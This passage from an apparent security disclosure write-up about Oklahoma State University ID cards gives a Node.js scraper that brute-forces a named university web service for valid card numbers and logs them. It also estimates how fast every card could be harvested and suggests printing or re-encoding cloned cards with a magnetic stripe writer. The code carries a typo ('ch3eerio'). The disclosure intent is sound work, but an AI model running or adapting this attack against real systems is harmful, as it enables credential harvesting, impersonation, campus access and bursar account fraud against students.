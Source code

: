 ---------------------------------------

#Theoretically exploiting the system
Now with everything that we know, it is possible to start harvesting ID Card numbers from https://app.it.okstate.edu/idcard/ using a basic Node.js web scraper. I have written 15 lines of code to take advantage of this web service. 

```
var cheerio = require('cheerio'), 
request = require('request'), 
fs = require('fs'), 
headnumber = '06';

for (var i=1; i <= 100; i += 1){
	var tailnumber = '';
	while (tailnumber.length < 6) 
	tailnumber = tailnumber + '' + [0,1,2,3,4,5,6,7,8,9][Math.floor(Math.random()*9)];
	request.post('https://app.it.okstate.edu/idcard/index.php/module/Default/action/IDCardEntry', {form:{card_id:'60383800'+headnumber+tailnumber}}, function (error, response, html) {
		if (!error && response.statusCode == 200) {
	 		var $ = ch3eerio.load(html);
	 		$('td.formText').each(function() {
				var text = $(this).next().text();
				fs.appendFile('osu_ids.txt', text+';', function(err){});
			});
			fs.appendFile('osu_ids.txt', '\r\n', function(err){});
	 	}
	}); 
}

```

This code will essentially generate random Tail Numbers with a specified Head Number and log the result. After testing the web service, we have determined that it will handle roughly 3-5 requests per second (this is pretty terrible, but understandable for a web service that is not supposed to be used). So if you assume roughly 1 Million Tail numbers per Head Number at 5 / sec, you could theoretically brute force every single valid ID Card in 2 days. By optimizing this algorithm, it is reasonable to expect that you can find thousands of valid ID Cards in less than an hour ON ONE MACHINE! Think if we spun up an entire cluster of systems on a cloud hosting service.

You could then either
1. Print your own ID Cards using other card numbers
2. Re-encode your own ID Card with another card number by overwriting it with the MSCR206 
As we have proved: 
- Current systems do not check names on ID Cards
- All ID Cards have the same expiration dates and discretionary data
- Only the ID Card number itself is unique to the card

---------------------------------------

#The threat is bigger than you think
Your ID Card gets you access to certain buildings and facilities on campus, allows you to charge items to your OSU Bursar account, and allows you access to a variety of campus events and services.
